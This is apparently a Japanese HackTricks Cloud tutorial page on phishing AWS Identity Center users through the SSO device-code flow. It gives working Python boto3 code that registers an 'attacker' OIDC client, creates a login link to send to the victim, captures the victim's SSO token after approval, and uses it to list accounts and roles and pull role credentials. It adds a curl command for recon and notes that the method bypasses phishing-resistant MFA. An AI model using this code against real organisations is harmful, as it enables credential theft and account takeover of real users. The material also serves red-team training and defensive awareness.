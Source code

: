 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}

## AWSデバイスコードフィッシング

最初に[**このブログ記事**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)で提案されたように、AWS SSOを使用しているユーザーに**リンク**を送信することが可能で、**ユーザーが受け入れれば**、攻撃者は**ユーザーを偽装するためのトークンを取得し**、**Identity Center**でユーザーがアクセスできるすべてのロールにアクセスできるようになります。

この攻撃を実行するための要件は次のとおりです：

* 被害者は**Identity Center**を使用している必要があります
* 攻撃者は被害者が使用している**サブドメイン**を知っている必要があります `<victimsub>.awsapps.com/start`

前述の情報だけで、**攻撃者はユーザーにリンクを送信でき**、**受け入れられれば**、**攻撃者はAWSユーザー**アカウントへのアクセスを得ることができます。

### 攻撃

1. **サブドメインの特定**

攻撃者の最初のステップは、被害者の会社がIdentity Centerで使用しているサブドメインを特定することです。これは**OSINT**または**推測 + ブルートフォース**を使用して行うことができ、ほとんどの会社はここで自社名またはそのバリエーションを使用しています。

この情報をもとに、Identity Centerが設定されたリージョンを取得することが可能です：
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **被害者のリンクを生成して送信する**

次のコードを実行して、被害者が認証できるAWS SSOログインリンクを生成します。\
デモのために、このコードをPythonコンソールで実行し、後でトークンを取得するためにいくつかのオブジェクトが必要になるので、終了しないでください:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
生成したリンクを被害者に送信し、あなたの素晴らしいソーシャルエンジニアリングスキルを使いましょう！

3. **被害者がそれを受け入れるのを待つ**

被害者が**すでにAWSにログインしている**場合、権限を付与することを受け入れるだけで済みます。ログインしていない場合は、**ログインしてから権限を付与することを受け入れる必要があります**。\
これが現在のプロンプトの見た目です：

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSOアクセストークンを取得する**

被害者がプロンプトを受け入れた場合、このコードを実行して**ユーザーを偽装してSSOトークンを生成します**：
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSOアクセストークンは**8時間有効**です。

5. **ユーザーをなりすます**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### フィッシング不可能なMFA

以前の攻撃が**「フィッシング不可能なMFA」（webAuth）が使用されていても機能する**ことを知るのは楽しいです。これは、以前の**ワークフローが使用されているOAuthドメインを離れないため**です。他のフィッシング攻撃とは異なり、ユーザーがログインドメインを偽装する必要がない場合、デバイスコードワークフローが準備されているため、**デバイスによって知られているコード**があり、ユーザーは異なるマシンでもログインできます。プロンプトを受け入れると、デバイスは**初期コードを知っているだけで**、ユーザーのために**資格情報を取得する**ことができます。

詳細については、[**この投稿を確認してください**](https://mjg59.dreamwidth.org/62175.html)。

### 自動ツール

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## 参考文献

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
